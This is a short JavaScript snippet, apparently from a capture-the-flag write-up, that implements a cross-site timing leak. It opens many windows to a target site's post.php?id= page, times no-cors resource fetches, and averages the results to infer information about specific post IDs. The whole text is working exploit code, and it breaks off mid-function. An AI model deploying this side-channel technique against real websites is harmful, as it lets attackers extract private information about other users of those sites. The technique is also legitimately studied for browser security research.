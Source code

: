 ```javascript
const WIN_NUM = 10;

const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

const wait = (w) =>
  new Promise(async (resolve) => {
    while (true) {
      try {
        w.document;
      } catch {
        resolve();
        break;
      }
      await sleep(30);
    }
  });

const measureOne = async (url) => {
  const firstW = open(url);
  await wait(firstW);

  const ws = [];
  for (let i = 0; i < WIN_NUM; i++) {
    ws.push(open(url));
  }
  await Promise.all(ws.map((w) => wait(w)));

  let start = performance.now();
  await Promise.all(
    RESOURCE_URLS.map((u) =>
      fetch(u, {
        mode: "no-cors",
      })
    )
  );
  const end = performance.now();

  for (const w of ws) {
    w.close();
  }
  firstW.close();

  return end - start;
};

const measure = async (url) => {
  let avg = 0;
  for (let i = 0; i < TRY_NUM; i++) {
    const t = await measureOne(url);
    avg += t;
  }
  avg /= TRY_NUM;
  return avg;
};

const leakOne = async (id) => {
  const url = `${BASE_URL}/post.php?id=${id}`;
  return await measure(url);
};

const leak = async () => {
  await leakOne(TARGET_IDS[0]);
  await sleep(1500);
```